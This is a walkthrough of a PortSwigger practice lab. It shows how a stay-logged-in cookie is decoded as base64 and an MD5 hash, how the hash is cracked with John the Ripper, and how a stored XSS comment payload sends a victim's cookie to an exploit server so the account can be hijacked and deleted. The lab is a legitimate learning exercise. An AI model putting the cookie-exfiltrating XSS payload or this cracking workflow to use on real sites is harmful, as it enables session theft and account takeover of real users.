

### Offline password cracking : PRACTITIONER

---

My credentials `wiener:peter` and victim username `carlos`.
- First thing's first, login as `wiener` and observe the stay logged in cookie using BURPSUITE PROXY HTTP history feature.



See that the `GET` request to fetch the user has a cookie called `stay-logged-in`.


Similar to [[Portswigger/Authentication/Lab 10|Lab 10]], this cookie is constructed as the base64 encoding of the username + ':' + MD5Hash(password).
```
stay-logged-in=d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw;
```

Decoding it using the Base64 command line tool.
``` bash
echo "d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw" > cookie.txt | base64 cookie.txt -d
```
- Writing the cookie first into a file `cookie.txt`, then using the pipe operator to take the contents of the file and decode it.

This outputs the following:
```
wiener:51dc30ddc473d43a6011e9ebba6ca770
```
- This means the cookies content consists of the username, `:`, and something encoded.

Checking its length: 
```bash
cookie="51dc30ddc473d43a6011e9ebba6ca770" 
echo -n "$cookie" | wc -c
```
- This outputs 32, and since it consists of the hexadecimal characters, then it is $32*4=128$ bits, so its probably an `MD5` hash.

Using John the Ripper tool to unhash this string. We first need to store it in a file.
```bash
echo "wiener:51dc30ddc473d43a6011e9ebba6ca770" > hash
john --format=raw-md5 hash
```
- This outputs the following:
```bash
wiener:peter
```

This means that the cookie is stored as follows:
```
base64(username:MD5(password))
```

> Next step, is to check the XSS vulnerability in the comment section. Trying a simple alert payload does the job.

```
<script>alert()</script>
```


Posting the comment and visiting the page again pops up the alert.
```
<script>alert(document.cookie)</script>
```
- Trying to display the cookie using the alert.


This displays the same cookie as the one in the GET and POST requests.
- This is now a stored XSS attack, but we need that to work for the user carlos.
- To do that, we need to send that pop up somewhere where we can see it: the exploit server logs.

> To do that, instead of the `alert` function, send the cookie using the `document.location` javascript property. This property loads and changes the URL. We can also add strings and assign ones to it.

Therefore, our payload for the comment will be as such:
```
<script>document.location='exploit-server-url'+document.cookie</script>
```


Filling in the URL:
```
<script>document.location='https://exploit-0a000015043e518182e2285a014c0022.exploit-server.net/exploit'+document.cookie</script>
```
- Adding this payload as a comment on one of the posts then checking the exploit server logs.


We see the same IP address and that one has the stay logged in cookie as the one we used for weiner.
- However, the before last line contains a different IP address with a different value for the stay logged in cookie.
```
stay-logged-in=Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz
```

Following the same steps as the cookie above, we first base64 decode it.
``` bash
echo "Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz" > cookie.txt | base64 cookie.txt -d
```

> This results in: `carlos:26323c16d5f4dabff3bb136f2460a943`.

Meaning we obtained the cookie for the user `carlos`, now we need to find the string that when MD5 hashed gets this hash `26323c16d5f4dabff3bb136f2460a943` using John the Ripper.
``` bash
echo "carlos:26323c16d5f4dabff3bb136f2460a943" > hash
john --format=raw-md5 hash
```
- Storing it first in a file.

> Took too long, so I went to this [website](https://md5decrypt.net/en/) to complete it faster.


Revealing the password as `onceuponatime`.
- Logging in as carlos and deleting the account completes the lab.

---
